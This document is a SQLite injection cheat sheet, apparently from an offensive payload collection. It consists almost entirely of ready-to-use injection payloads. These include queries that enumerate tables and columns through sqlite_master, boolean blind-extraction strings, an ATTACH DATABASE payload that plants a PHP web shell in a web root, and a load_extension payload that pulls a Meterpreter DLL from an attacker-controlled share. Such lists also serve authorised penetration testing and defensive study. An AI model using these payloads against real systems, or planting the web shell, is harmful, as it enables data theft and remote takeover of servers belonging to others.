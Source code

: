 # SQLite Injection


## Integer/String based - Extract table name
```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name
```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output
```
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables
```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name
```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info
```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Remote Command Execution using SQLite command - Attach Database
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES (‘<?system($_GET[‘cmd’]); ?>’);--
```

## Remote Command Execution using SQLite command - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
Note: By default this component is disabled

## Thanks to
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)